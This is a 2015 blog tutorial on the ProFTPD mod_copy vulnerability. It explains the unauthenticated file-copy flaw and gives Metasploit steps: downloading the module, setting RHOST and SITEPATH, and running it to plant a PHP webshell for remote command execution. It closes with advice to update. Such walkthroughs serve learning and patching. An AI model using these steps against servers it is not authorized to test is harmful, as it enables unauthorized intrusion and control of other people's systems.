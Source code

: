 ```yaml
---
author: Mansoor A
date: "2015-08-27T18:23:18Z"
description: ""
draft: false
title: Hacking a Linux server by exploiting the FTP server ( Proftpd )
url: blog/proftp-vulnerability-could-allow-an-attacker-to-gain-a-shell-in-your-server
---
```



The vulnerability in the mod_copy module of Proftpd was disclosed a couple months back. Most servers using Proftp are still vulnerable to attacks as they're using older versions of the software. If you're using Proftpd version 1.3.5 or before, your server is vulnerable and it's just a matter of time before someone takes advantage of that vulnerability. So, I thought I'd do a write up about the same, including a demonstration of how easy and terrifying the situation is.

### Who all are affected?

Any Linux server running Proftp version < 1.3.5 are vulnerable.

### How does it work?

mod_copy is a module for the Proftp server, which implements the "SITE CPFR" & "SITE CPTO" command, using these commands the user can move around files or folders in the server. That is, normally, if you want to copy a file from one place in the server to another place using FTP, you'd have to transfer it to the local system, then upload it to the target location in the server. But, using mod_copy you can simply transfer it without having to download to your local system.

There is a vulnerability in the software which allows "ANY UNAUTHENTICATED" user to use the above commands to copy the files. That's right, any user.

### What is the impact, if someone exploits it?

Well, basically, they could have a shell in your server which is more than enough to do some serious sh#t.
In fact, I'll show you how you can exploit this vulnerability using metasploit. 
Yeah, that's right! someone wrote an exploit for this vulnerability and it works like a charm

### Let's try this!!

Let's try to exploit this vulnerability using metasploit and see if we're any successful. 
> PLEASE NOTE THAT THIS IS FOR EDUCATIONAL PURPOSES ONLY, TRY THIS ON DEVICES YOU'RE AUTHORIZED AND I WILL NOT BE RESPONSIBLE FOR YOUR ACTIONS.

I assume that you've metasploit all ready for action, let's jump right into it.

Here's my set up: I have an  ubuntu server running on VirtualBox and Kali Linux (my host machine) is the attacker.

#### Step 1 : Download the exploit into your computer. 
For that, open a terminal as root and download the exploit from <a href="https://raw.githubusercontent.com/rapid7/metasploit-framework/master/modules/exploits/unix/ftp/proftpd_modcopy_exec.rb" target="_blank">HERE</a>

```shell
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/master/modules/exploits/unix/ftp/proftpd_modcopy_exec.rb
```

Copy it into exploits folder.

```shell
cp proftpd_modcopy_exec.rb /usr/share/metasploit-framework/modules/exploits/unix/ftp/
```

#### Step 2: Open msfconsole. 
For that, open up a Terminal ( as root ) and type "msfconsole"

 ![Msfconsole](https://cdn.esc.sh/jekyll/posts/metasploit/msf2.png)

#### Step 3: Once metasploit is loaded, use the following command to load the exploit

```shell
use exploit/unix/ftp/proftpd_modcopy_exec
# After that, we have to set the remote host ( victim server )
set RHOST 192.168.1.102
set SITEPATH /var/www/html
```

You can always type "show options" to see all the options you have to set. Here, RHOST is the remote server we're trying to exploit. The "SITEPATH" is the document root for the webserver. Once you're all set, type "exploit" and press enter. That's it.

You should now have a session opened from the remote server where you can execute any command.

 ![Msfconsole](https://cdn.esc.sh/jekyll/posts/metasploit/msf3.png)

Here's what happened when you typed "exploit" and press enter. The exploit makes use of the vulnerability to upload a PHP webshell into the server and metasploit presents you with an interface to that shell where you can execute commands. Did you notice how easy was it to exploit the server? All we needed was the IP address of the server. Pretty scary huh?

### How to prevent this?

Just update the packages in your server and you should be fine. Keep yourself updated, Stay safe.!! 🙂

